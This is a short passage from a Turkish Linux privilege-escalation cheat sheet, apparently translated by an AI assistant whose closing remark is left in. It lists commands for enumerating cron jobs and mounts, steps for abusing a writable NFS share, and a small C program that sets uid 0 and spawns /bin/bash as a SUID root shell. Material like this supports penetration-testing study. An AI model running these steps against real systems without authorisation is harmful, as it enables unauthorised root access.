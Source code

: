 Cron job’ları kontrol etmek için:  
```bash
crontab -l
ls -al /etc/ | grep cron
cat /etc/crontab
```

---

#### Montajlanmamış Dosya Sistemleri  

Montajlanmamış dosya sistemleri bulup montajlayarak yetki yükseltmeyi yeniden deneyebilirsiniz:  

```bash
mount -l
cat /etc/fstab
```

---

#### NFS Paylaşımı  

Bir makinede NFS paylaşımı varsa, bunu yetki yükseltmek için kullanabilirsiniz. Eğer yazma izniniz varsa, SUID bir dosya oluşturup çalıştırabilirsiniz.  

```bash
showmount -e 192.168.1.101
mount 192.168.1.101:/ /tmp/
```

C kodu örneği:  
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

---

### Diğer Yararlı Bilgiler  

**Dünya yazılabilir dizinler:**  
```bash
/tmp
/var/tmp
/dev/shm
```

Eksiksiz şekilde Türkçeye çevirdim. Daha fazla sorunuz varsa lütfen paylaşın! 😊
